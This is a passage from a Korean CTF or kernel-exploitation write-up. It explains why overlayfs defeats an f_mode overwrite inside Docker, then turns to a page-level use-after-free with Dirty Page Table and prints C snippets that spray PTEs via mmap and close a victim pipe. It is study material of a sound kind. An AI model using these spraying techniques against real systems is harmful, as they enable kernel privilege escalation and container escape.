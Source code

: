 호스트 환경과는 달리, 도커 내부에서는 `f_op`가 [`ovl_file_operations`](https://elixir.bootlin.com/linux/v5.10.127/source/fs/overlayfs/file.c#L764)를 가르킨다.
그러면 `file->f_op->write` 또는 `file->f_op->write_iter`를 호출할 때 [`ovl_write_iter`](https://elixir.bootlin.com/linux/v5.10.127/source/fs/overlayfs/file.c#L350)가 호출되고 이 함수에서 `f_mode`를 다시 계산한다.
따라서 `struct file`의 `f_mode`를 잘 변조했더라도 실제로 파일을 쓸 때는 다시 원래의 `f_mode`로 돌아가게 된다...

![hiroi kikuri sad](https://media1.tenor.com/m/kXWb4lofzQcAAAAC/hiroi-kikuri-hiroi.gif)

여담. 이번 코드게이트 2025의 예선에 나온 [pew](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/Codegate/2025/Quals/pwn/pew)가 [PageJack의 PoC](https://github.com/Lotuhu/Page-UAF/blob/master/CVE-2021-22555/exp.c)로 쉽게 풀린다. (진짜 그냥 PoC 복붙하고 조금만 수정하면 풀린다.)

### 마지막 접근 ([`struct pipe_buffer`](https://elixir.bootlin.com/linux/v5.10.127/source/include/linux/pipe_fs_i.h#L26)와 [Dirty Page Table](https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html)를 이용하자!)

PageJack를 이용할 수 없게 됐으나 얘를 통해 페이지 레벨의 UAF를 만들 수 있다.
그러면 그 페이지를 PTE 페이지로 사용하게 해서 [Dirty Page Table](https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html)를 쓸 수 있지 않을까? 라고 생각했다.

#### UAF 페이지를 [PTE](https://en.wikipedia.org/wiki/Page_table#Page_table_entry) 페이지로 할당 받자

`mmap`과 해당 주소에 접근을 통한 page fault를 일으켜서 [PTE](https://en.wikipedia.org/wiki/Page_table#Page_table_entry)를 spray할 수 있다.
그래서 다음과 같은 코드로 시도해봤는데 PTE가 UAF 페이지에 생기지 않았다.

```c
for (int i = 0; i < MMAP_SPRAY_COUNT; ++i) {
  mmap_addrs[i] = mmap((void *)(MMAP_SPRAT_START_ADDR + i * MMAP_SPRAT_STEP),
                        MMAP_SPRAT_SIZE, PROT_READ | PROT_WRITE,
                        MAP_ANONYMOUS | MAP_SHARED, -1, 0);
  if (mmap_addrs[i] == MAP_FAILED) {
    fatal("mmap");
  }
}
sched_yield();
close_pipe_at(victim_pipe_fds[1]); // Make UAF page
for (int i = 0; i < MMAP_SPRAY_COUNT; ++i) {
  for (int j = 0; j < MMAP_SPRAT_SIZE / MMAP_PAGE_SIZE; ++j) {
    uint64_t *addr = (uint64_t *)(mmap_addrs[i] + MMAP_PAGE_SIZE * j);
    const uint64_t val = ((uint64_t)i << 32) + j * 0x01010101;
    *addr = val;
  }
}
```

지금도 왜 안되는지는 모르겠는데, 아래와 같은 코드는 UAF 페이지에 PTE가 잘 생겼다.

```c
for (int i = 0; i < MMAP_SPRAY_COUNT; ++i) {
  mmap_addrs[i] = mmap((void *)(MMAP_SPRAT_START_ADDR + i * MMAP_SPRAT_STEP),
                        MMAP_SPRAT_SIZE, PROT_READ | PROT_WRITE,
                        MAP_ANONYMOUS | MAP_SHARED, -1, 0);
  if (mmap_addrs[i] == MAP_FAILED) {
    fatal("mmap");
  }
}
sched_yield();
close_pipe_at(victim_pipe_fds[1]);  // Make UAF page
for (int i = 0; i < FILE_SPRAY_COUNT; ++i) {
  file_fds[i] = open("/", O_RDONLY);
  if (file_fds[i] < 0) {
    fatal("open");
  }
```